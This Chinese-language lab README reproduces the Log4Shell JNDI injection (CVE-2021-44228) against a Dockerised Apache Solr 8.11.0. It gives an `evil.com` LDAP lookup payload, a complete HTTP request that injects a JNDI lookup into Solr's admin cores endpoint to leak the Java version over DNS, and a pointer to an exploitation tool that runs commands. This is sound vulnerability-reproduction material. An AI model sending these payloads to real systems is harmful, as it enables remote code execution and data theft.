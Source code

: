# Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## 漏洞环境

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:dns://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![](1.png)

实际利用JNDI注入漏洞，可以使用[JNDInjector](https://github.com/rebeyond/JNDInjector)。利用完毕后，可见`touch /tmp/success`已经成功被执行：

![](2.png)
